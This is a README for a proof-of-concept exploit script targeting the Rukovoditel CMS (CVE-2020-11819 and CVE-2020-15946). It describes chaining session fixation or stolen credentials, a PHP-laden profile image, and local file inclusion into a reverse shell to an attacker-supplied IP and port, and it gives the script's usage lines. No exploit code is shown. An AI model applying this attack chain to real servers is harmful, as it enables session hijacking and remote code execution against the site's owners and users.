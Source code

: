 # PoC-RCE-Rukovoditel
Proof of concept for CVE-2020-11819 and CVE-2020-15946

Description:
This exploit has two modes of execution, using the session fixation vulnerability (CVE-2020-15946) or using the access credentials of any account under any profile. With the --type L option, this script will create a malicious link, if the link is accessed in a browser by the victim, an arbitrary session identifier will be set that will be used to steal their session after uploading an image with PHP content on their photo profile, and then use local file include (CVE-2020-11819) to get a nice reverse shell or, with the options --type C -u <username> -p <password> you can provide credentials, load the image with PHP content and use local file inclusion (CVE-2020-11819) to achieve the execution of code. 

Protip: remember to check if the registration module is enabled ;)

Usage
  exploit.py -t <target> -a L --ip attacker IP --port attacker port [options]
  exploit.py -t <target> -a C -u <username> -p <password> --ip attacker IP --port attacker port [options]

Post-authenticate RCE for rukovoditel, script version 1.0

optional arguments:
  -h, --help            show this help message and exit
  -t URL, --target URL  URL/Full path to CMS Rukovoditel http://url/path/to/cms/
  -u USER, --user USER  Username for authentication
  -p PASSWORD, --password PASSWORD
                        Password for authentication
  -a TYPE, --type TYPE  Use -a L to generate the link and steal the session or use -a C if you have access
                        credentials to the web application
  --ip IP_ATTACKER      IP attacker for reverse shell!
  --port PORT_ATTACKER  Port for reverse shell connection
  --proxy PROXY         Setup http proxy for debbugin http://127.0.0.1:8080
